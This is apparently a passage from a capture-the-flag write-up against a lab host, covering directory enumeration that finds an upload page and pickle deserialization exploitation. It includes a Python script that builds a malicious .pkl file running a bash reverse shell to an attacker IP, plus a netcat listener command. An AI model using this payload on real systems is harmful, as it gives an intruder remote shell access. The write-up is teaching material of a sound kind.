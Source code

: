 ```

Output File: /home/death/reports/http_dev.incognito.com/_secret_25-06-08_13-30-28.txt

Target: http://dev.incognito.com/

[13:30:28] Starting: secret/
[13:31:10] 404 -   16B  - /secret/composer.phar
[13:31:24] 404 -   16B  - /secret/index.php/login/
[13:31:38] 404 -   16B  - /secret/php-cs-fixer.phar
[13:31:40] 404 -   16B  - /secret/phpunit.phar
[13:31:56] 301 -  330B  - /secret/upload  ->  http://dev.incognito.com/secret/upload/
[13:31:56] 200 -  236B  - /secret/upload/

Task Completed
```
Ah ha! There’s an upload feature. Let’s start testing which types of files we can upload. `http://dev.incognito.com/secret/upload/`

## Step 2: Exploitation

In start we saw the request carrying this:
```
{
  "object":"/var/upload/games/object.pkl"
}
```
That mean we need to upload revser shell with `.pkl` extention

After reading some forums [learn more](https://frichetten.com/blog/escalating-deserialization-attacks-python/) I understand working of this the reverse shell crafted
```py
#!/usr/bin/env python3
import pickle, os
class pickleSerilization(object):
    def __reduce__(self):
        return (os.system,("bash -c 'bash -i >& /dev/tcp/10.xx.xx.xx/1234 0>&1'",))
pickle.dump(pickleSerilization(), open("shell", "wb"))
```

* This Python script creates a malicious `.pkl` (pickle) file that, when deserialized (loaded), will:
* Execute a reverse shell to the attacker's IP (10.xx.xx.xx) on port 1234.

Execute this script, it will create a shell file 
```
python3 test.py
```

Upload the shell on web
![image](https://github.com/user-attachments/assets/d61ef82f-9746-4631-8bfd-bb7f02d7a100)

Shell uploaded succufull 

Before executing open netcat listner in new terminal
```
nc -lnvp 1234
```
Let execute shell by going to `incognito.com` and taping on `game rate` button 
fire up burpsuite capture the request
![image](https://github.com/user-attachments/assets/852d09ce-cd83-4fd4-8885-6b930bad1a6a)

